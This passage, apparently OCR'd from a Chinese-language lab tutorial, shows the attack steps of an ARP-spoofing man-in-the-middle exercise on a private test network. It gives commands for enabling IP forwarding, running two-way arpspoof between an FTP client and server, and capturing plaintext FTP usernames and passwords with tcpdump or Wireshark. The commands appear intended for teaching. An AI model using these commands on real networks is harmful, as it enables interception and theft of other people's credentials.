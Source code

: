 ------

### 3. Kali 攻击者（192.168.1.128）

工具：`arpspoof`, `tcpdump` 或 `wireshark`

------

## 🎯 二、攻击步骤

### 第一步：启用IP转发（Kali）

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 第二步：ARP欺骗（双向）

欺骗A（客户端），让它以为服务器C的MAC是你：

```bash
arpspoof -i eth0 -t 192.168.1.130 192.168.1.129
```

欺骗C（FTP服务器），让它以为客户端A的MAC是你：

```bash
arpspoof -i eth0 -t 192.168.1.129 192.168.1.130
```

（`eth0` 视你Kali网卡名而定，可用 `ip a` 查看）

------

### 第三步：抓包FTP明文凭证

```bash
tcpdump -i eth0 port 21 -A
```

或者使用 Wireshark：

- 设置过滤器为：`ftp` 或 `tcp.port == 21`
- 找到含 `USER` 和 `PASS` 的数据包

你会看到类似：

```
USER ftpuser
PASS 123456
```

说明已成功抓取明文用户名密码。

------

## ✅ 三、实验验证成功的标志
